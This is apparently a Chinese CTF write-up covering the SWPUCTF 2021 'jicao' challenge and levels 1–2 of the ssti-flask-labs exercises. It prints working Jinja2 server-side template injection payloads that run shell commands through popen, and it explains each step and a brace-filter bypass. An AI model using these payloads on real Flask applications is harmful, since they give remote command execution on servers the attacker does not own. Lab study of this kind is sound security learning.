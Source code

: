 #### [SWPUCTF 2021 新生赛]jicao

代码：

![image-20250228212607464](assets/image-20250228212607464.png)

`json_decode`是对内容进行json解码，要求是解码后`$json` 数组中的 `x` 键对应的值等于 `"wllm"`，变量 id 等于字符串"wllmNB

payload：

```
URL/?json={"x":"wllm"}
POST:
id=wllmNB
```

json解码后是

```
array (
  'x' => 'wllm',
)
```



#### ssti-flask-labs

这算是SSTI的入门

分了13个level

##### level1

什么也没过滤，payload：

```
{{().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

解释一下：

```
().__class__.__base__是为了拿到object
().__class__.__base__.__subclasses__()为了拿到object的全部子类
由于是以数组形式呈现，可以直接用数字索引，这里133索引的是类<class 'os._wrap_close'>，为的是里面的eval进行rce
然后是__init__初始化，初始化方法后通过__globals__魔术方法来返回当前类方法中的全局变量字典
这里用popen函数来执行系统命令，在后面加上具体的函数名即可找到对应的函数
后面加.read()是因为popen方法返回的是一个与子进程通信的对象，为了从该对象中获取子进程的输出，因此需要使用read()方法来读取子进程的输出，然后就可以执行命令了
```

##### level2

过滤了`{}`，可以用`{%%}`来代替，不过要加一个`print()`（不知道为什么）

payload：

```
{%print(().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read())%}
```


